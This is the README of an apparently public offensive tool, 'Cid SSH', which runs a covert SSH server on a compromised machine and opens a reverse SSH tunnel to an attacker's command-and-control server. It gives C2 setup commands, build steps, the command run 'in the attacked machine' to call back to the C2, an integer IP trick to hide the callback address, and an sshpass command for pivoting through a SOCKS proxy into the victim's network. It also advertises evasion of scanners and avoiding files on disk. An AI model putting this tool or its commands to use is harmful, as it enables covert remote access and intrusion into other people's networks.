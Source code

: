 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/Cid-SSH/releases/tag/v1.0). 

If you want to compile from source keep reading

### Compilation on Windows
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it
It's very easy. In the attacked machine:
```
Cid-SSH.exe 192.168.15.135
```

You could also specify the IP address as an integer so it's not very obvious:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```